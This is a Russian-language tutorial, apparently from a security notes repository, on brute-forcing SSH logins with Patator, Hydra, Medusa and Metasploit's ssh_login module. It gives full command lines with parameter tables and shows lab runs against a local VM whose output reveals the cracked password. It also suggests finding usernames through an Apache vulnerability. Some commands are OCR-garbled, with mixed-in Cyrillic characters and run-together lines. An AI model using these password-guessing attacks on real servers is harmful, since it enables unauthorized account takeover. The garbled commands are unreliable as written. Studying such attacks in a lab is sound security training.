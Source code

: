 # Brute-force SSH

[Что такое brute-force](materials/security/bruteforce.md)

Пусть у нас есть SSH-cepвep с IР-адресом `111.11.11.11` (адрес приводится исключительно для примера). Наша задача каким-то образом узнать имя пользователя, который зарегистрирован на сервере. Имя root пробовать не стоит, так как обычно его отключают для входа по SSH. Поэтому нужно как-то раздобыть другое имя пользователя. Как это сделать? Haпpимep, с помощью уязвимости в том же Apache. Можно также попробовать часто используемые имена вроде admin, test, user. Для брутфорса можно использовать следующие иструменты: `Patator`, `Medusa`, `Hydra`, `Metasploit`. Все они доступны в дистрибутиве Kali Linux.

# 1 Patator

Для подбора пароля средствами Patator используется команда:

```bash
patator ssh_login host=lll.11.11.11 user=test password=FIIEO O=/root/wordlist -х ignore:mesg='Authentication failed'
```

|**Параметр**|**Значение**|
|---|---|
|**`ssh_login`**|необходимый модуль|
|**`host`**|наша цель|
|**`user`**|логин пользователя, к которому подбирается пароль или файл с логинами для множественного подбора|
|**`password`**|словарь с паролями|
|**`-х ignore:mesg= 'Authentication failed'`**|команда не выводить на экран строку, имеющую данное сообщение. Параметр фильтрации подбирается индивидуально. То есть в зависимости от версии и настроек сервера, сообщение об неудачной аутентификации может быть другим|

## **Практика**

## 1.1 Запустим сервис ssh

![https://i.imgur.com/4GHAWBp.png](https://i.imgur.com/4GHAWBp.png)

## 1.2 Попробуем подключиться

Все успешно, так что попробуем сбрутить наш пароль от ssh

## 1.3 Для брутфорса нам потребуется файл с паролями, если вы хотите перебрать много паролей, то воспользуйтесь файлом с гита:

```bash
wget <https://github.com/duyet/bruteforce-database/blob/master/2151220-passwords.txt>
```

## 1.4 Мы создадим свои файлы, чтобы посмотреть на практике (включая верный пароль для аутентификации)

## 1.5 Будем использовать наш IP

## 1.6 В нашем случае воспользуемся командой:

```bash
patator ssh_login host=192.168.79.144 user=FILE0 password=FILE1 0=user_name.txt 1=passwords.txt -x ignore:mesg='Authentication failed'
```

Подобран верный пароль:

```bash
11:20:29 patator INFO - 0 33 0.035 | user:Kali123 | 23 | SSH-2.0-OpenSSH_9.0p1 Debian-1+b1
```

# **2. Hydra**

Для подбора пароля с помощью Hydra используется команда:

```bash
hydra -V -f -t 4 -1 test -Р /root/wordlist ssh://111.11.11.11
```

|**Параметр**|**Значение**|
|---|---|
|**`-V`**|показывать пару логин + пароль во время перебора|
|**`-f`**|остановка, как только будет найден пароль для указаного логина|
|**`-Р`**|путь до словаря с паролями|
|**`ssh://111.11.11.11`**|IР-адрес жертвы|

## **Практика**

В нашем случае воспользуемся командой:

```bash
hydra -V -f -t 4 -l user -P /home/user/passwords.txt ssh://192.168.79.144
```

Пароль успешно подобран.

```bash
[22][ssh] host: 192.168.79.144 login: user password: Kali123
```

# **3. Medusa**

Для подбора пароля с помощью Medusa используется команда:

```bash
medusa -h 192.168.60.50 -u test -Р /root/wordlist -М ssh -f -v 6
```

|**Параметр**|**Значение**|
|---|---|
|**`-h`**|IР-адрес жертвы|
|**`-u`**|Логин|
|**`-Р`**|Путь к словарю|
|**`-М`**|Выбор модуля|
|**`-f`**|Остановка после нахождения валидной пары логин/пароль|
|**`-v`**|Настройка отображения сообщений на экране во время процесса подбора|

## **Практика**

В нашем случае воспользуемся командой:

```bash
medusa -h 192.168.79.144 -u user -P passwords.txt -M ssh -f -v 6
```

Пароль успешно подобран.

```bash
ACCOUNT FOUND: [ssh] Host: 192.168.79.144 User: user Password: Kali123 [SUCCESS]
```

# **4. Metasploit**

## 4.1 Запустим metasploit: `msfconsole`

```bash
msfconsole
```

## 4.2 Найдем нужный инструмент: `search ssh_login`


## 4.3 Первый обеспечивает подбор логина и пароля, а второй - логина и публичного ключа.

Нас сейчас интересует первый модуль:

```bash
use auxiliary/scanner/ssh/ssh_login
```


## 4.4 Посмотрим необходимые параметры для заполнения:

```bash
show options
```

## 4.5 Заполним их нужными данными (каждый отдельной строкой)

```bash
set blank_passwords trueset stop_on_success trueset verbose trueset user_file password.txtset pass_file user_name.txtset rhosts 192.168.79.144
```

![https://i.imgur.com/HwniQQR.png](https://i.imgur.com/HwniQQR.png)

## 4.6 Запустим с помощью команды `use` или `exploit`

![https://i.imgur.com/c9AGKRM.png](https://i.imgur.com/c9AGKRM.png)

Пароль успешно подобран.

```bash
[+] 192.168.79.144:22 - Success: 'user:Kali123' 'uid=1000(user) gid=1000(user) группы=1000(user), 4(adm), 20(dialout), 24(cdrom), 25(floppy), 27(sudo), 29(audio), 30(dip), 44(video), 46(plugdev), 109(netdev), 119(wireshark), 121(bluetooth), 137(scanner), 141(kaboxer) Linux kali 5.18.0-kali5-amd64 #1 SMP PREEMPT_DYNAMIC Debian 5.18.5-1kali6 (2022-07-07) x86_64 GNU/Linux '
```
